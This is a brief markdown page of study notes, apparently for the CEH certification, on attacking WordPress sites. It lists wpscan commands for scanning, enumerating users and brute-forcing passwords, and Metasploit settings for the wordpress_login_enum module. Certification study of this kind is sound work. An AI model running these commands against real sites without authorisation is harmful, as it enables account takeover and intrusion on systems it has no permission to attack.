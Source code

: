 # [<<< Back to index](../CEH_index.md)
## Web App Attack

### #wordpress

`wpscan`

wpscan –url IP `basic scan`\
wpscan –url IP -e u `enumerating website users`\
wpscan –url IP -U USER_NAME -P PATH_TO_WORDLIST `brute-forcing password for the identified user`

`msfconsole`

serach and use wordpress_login_enum\
set PASS_FILE passlist.txt\
set RHOSTS IP\
set RPORT PORT\
set TARGETURI http://IP:PORT/\
set USERNAME user


